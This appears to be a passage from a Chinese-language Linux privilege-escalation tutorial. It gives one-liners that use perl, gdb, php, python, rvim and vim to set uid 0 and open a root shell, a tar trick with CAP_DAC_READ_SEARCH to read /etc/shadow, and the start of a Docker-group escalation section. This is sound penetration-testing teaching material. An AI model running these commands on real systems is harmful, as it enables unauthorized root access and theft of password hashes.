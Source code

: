 ```shell
类似的有很多。
perl
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

gdb
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

php
php -r "posix_setuid(0); system('/bin/sh');"

python
python -c 'import os; os.setuid(0); os.system("/bin/sh")'

rvim

需要支持python3模块。
rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

vim

需要支持python3模块。vim --version查询，是否支持py3
vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

### B.2 通过CAP_DAC_READ_SEARCH

cap_dac_read_search可以绕过文件的读权限检查以及目录的读/执行权限的检查。

利用此特性我们可以读取系统中的敏感信息。

如果tar有此权限，我们可以通过此来查看敏感文件内容。

tar cvf shadow.tar /etc/shadow  //创建压缩文件 tar -xvf shadow.tar  //解压缩 cd etc  //进入解压缩的目录 chmod +r shadow  //赋予读权限 cat shadow | grep root  //查看shadow文件的内容

# 0x0c 利用docker进行提权

 区别于docker逃逸，相当于是利用docker进行提权

在docker中，是允许访问root用户和docker组中的其它用户的

 查看是否在docker组下

```
cat /etc/group | grep olw
```

 ![image-20231120234119171](assets/image-20231120234119171.png)
